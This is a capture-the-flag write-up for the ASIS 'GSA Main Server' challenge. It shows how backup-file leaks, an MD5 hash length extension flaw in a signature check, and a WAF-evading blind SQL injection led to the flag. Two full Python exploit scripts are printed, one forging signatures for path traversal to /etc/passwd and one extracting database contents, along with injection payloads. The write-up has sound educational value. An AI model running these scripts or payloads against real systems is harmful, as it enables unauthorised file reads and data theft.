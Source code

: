 # GSA Main Server

The participants were given a portal containing some information and it has some features such as downloading attachments and etc. After spending some time on the task, I notieced a comment in the last line of index.php file:

```
<!--# vim: syntax=apache ts=4 sw=4 sts=4 sr noet-->
```

Indicating the file has been modified by vim, so I checked `index.php~`, nothing useful but:
```
<? require 'html/header.php'; ?>
<? require 'functions.php' ?>
<? require 'infoDB.php' ?>
```
I checked all pages by adding ~ and, `functions.php~` was there:
```
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}

// end
```
On the other side, in portal (*http://178.62.34.76/showInformation/2*) there was an attachment to download:

```
GET /getAttachment/file.txt HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close
```

It had two important parts, filename which was given by URL and `X-Signature: beb2e68c628653c72abcb388b078cfda` which prevented from changing file name:
```
GET /getAttachment/blahblah HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close


Rsponse: Error: Invalid Signature has been given
```

Back to the functions.php, if makeSignature makes the signature, there are two notes:

+ The key cannot be brute forced, because the length was 10 character as mentioned in comment
+ The function was vulnerbale to Hash Length Extension

So I used hashpumpy library to exploit the hole:

```
import requests
import hashpumpy
import urllib
import sys

if len(sys.argv) != 2:
	print ''
	print '[>] Usage: python {} [path]'.format(sys.argv[0])
	print '[>] Example: python {} ../../../../../../etc/passwd'.format(sys.argv[0])
	print ''
	sys.exit()

new_digest, new_data = hashpumpy.hashpump('beb2e68c628653c72abcb388b078cfda', 'file.txt', '?/' + sys.argv[1] , 32)
new_data_encoded = urllib.quote_plus(urllib.quote_plus(new_data))

print ''
print '[>] New Signature: {}'.format(new_digest)
print '[>] New data: {}'.format(new_data.encode('hex'))
print '[+] Result:'
print ''
print '~~~~~~'

headers = {'X-Signature': new_digest}
response = requests.get('http://178.62.34.76/getAttachment/' + new_data_encoded, headers=headers);
print response.text;

print '~~~~~~'
print ''
```

Result:
![](1.png)

I spent much time here, figured out that two files were important to read:

+ Squid config 
+ .htaccess

The htaccess source:

```
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]

```

Revealing two new hosts (next questions), and some hidden path such as `notConfirmedInformation/` and etc. `infoSubmit/` path allowed to insert new information and `notConfirmedInformation/` allowed to see the information submitted. After some strugling at this stage, I found that `notConfirmedInformation/{id}` was prone to MySQL injection. However, the injection was tricky because as I deduced:

+ There was two query, first loads the page and second upgrades the view number.
+ The first one was totally secures, the second one had injection though. **The SQLi test was easy**
+ The WAF was annoying, it blocked queries had some keywords such as `union` and replaced some characters such as `space`

###### SQLi test:
http://178.62.34.76/notConfirmedInformation/265940057+and+1=1
http://178.62.34.76/notConfirmedInformation/265940057+and+1=2

Page gets loaded but `Visited` ony upgraded in first request


###### The flag:
Finnaly, I wrote a python code to exploit the injection hole:

```
import requests
import re
import sys

regex = re.compile("<b>Visited:</b> (\d+)</div>")


if len(sys.argv) != 2:
    print ''
    print '[>] Usage: python {} [id]'.format(sys.argv[0])
    print '[>] Example: python {} 265940057'.format(sys.argv[0])
    print ''
    sys.exit()

qq = "http://178.62.34.76/notConfirmedInformation/{}".format(sys.argv[1])
body = requests.get(qq).text

visited = int(regex.findall(body)[0])


#q = "(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))"
#q = "(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())and(table_name='flag'))"
q = "(select(flag)from(flag))"

out = ""
for i in range(1,30):
    for c in range(31,126):
        qq = "http://178.62.34.76/notConfirmedInformation/"+sys.argv[1]+"-if(ord(mid("+q+","+str(i)+",1))="+str(c)+",0,2)"
        #print qq
        body = requests.get(qq).text
        #print body
        visited2 = int(regex.findall(body)[0])


        if visited + 1 == visited2:
            sys.stdout.write(chr(c)) 
            sys.stdout.flush()
            visited = visited2
            break
        if visited2==visited:
            pass
        else:
            pass
```

The Flag: ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}

###### Contact
https://twitter.com/yshahinzadeh